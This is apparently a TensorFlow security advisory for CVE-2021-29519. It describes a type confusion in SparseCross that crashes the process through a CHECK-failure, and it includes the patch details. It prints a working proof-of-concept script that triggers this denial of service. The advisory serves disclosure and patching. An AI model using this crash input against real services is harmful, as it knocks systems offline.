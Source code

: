 ## TFSA-2021-008: `CHECK`-fail in `SparseCross` due to type confusion

### CVE Number
CVE-2021-29519

### Impact
The API of `tf.raw_ops.SparseCross` allows combinations which would
result in a `CHECK`-failure and denial of service:

```python
import machina as tf

hashed_output = False
num_buckets = 1949315406
hash_key = 1869835877
out_type = tf.string
internal_type = tf.string

indices_1 = tf.constant([0, 6], shape=[1, 2], dtype=tf.int64)
indices_2 = tf.constant([0, 0], shape=[1, 2], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.constant([0], dtype=tf.int64)
values_2 = tf.constant([72], dtype=tf.int64)
values = [values_1, values_2]

batch_size = 4
shape_1 = tf.constant([4, 122], dtype=tf.int64)
shape_2 = tf.constant([4, 188], dtype=tf.int64)
shapes = [shape_1, shape_2]

dense_1 = tf.constant([188, 127, 336, 0], shape=[4, 1], dtype=tf.int64)
dense_2 = tf.constant([341, 470, 470, 470], shape=[4, 1], dtype=tf.int64)
dense_3 = tf.constant([188, 188, 341, 922], shape=[4, 1], dtype=tf.int64)
denses = [dense_1, dense_2, dense_3]

tf.raw_ops.SparseCross(indices=indices, values=values, shapes=shapes, dense_inputs=denses, hashed_output=hashed_output,
                       num_buckets=num_buckets, hash_key=hash_key, out_type=out_type, internal_type=internal_type)
```

The above code will result in a `CHECK` fail in
[`tensor.cc`](https://github.com/machina/machina/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/machina/core/framework/tensor.cc#L670-L675):

```cc
void Tensor::CheckTypeAndIsAligned(DataType expected_dtype) const {
  CHECK_EQ(dtype(), expected_dtype)
      << " " << DataTypeString(expected_dtype) << " expected, got "
      << DataTypeString(dtype());
  ...
}
```

This is because the
[implementation](https://github.com/machina/machina/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/machina/core/kernels/sparse_cross_op.cc#L114-L116)
is tricked to consider a tensor of type `tstring` which in fact contains
integral elements:

```cc
  if (DT_STRING == values_.dtype())
      return Fingerprint64(values_.vec<tstring>().data()[start + n]);
  return values_.vec<int64>().data()[start + n];
```

Fixing the type confusion by preventing mixing `DT_STRING` and `DT_INT64` types
solves this issue.

### Patches
We have patched the issue in GitHub commit
[b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025](https://github.com/machina/machina/commit/b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
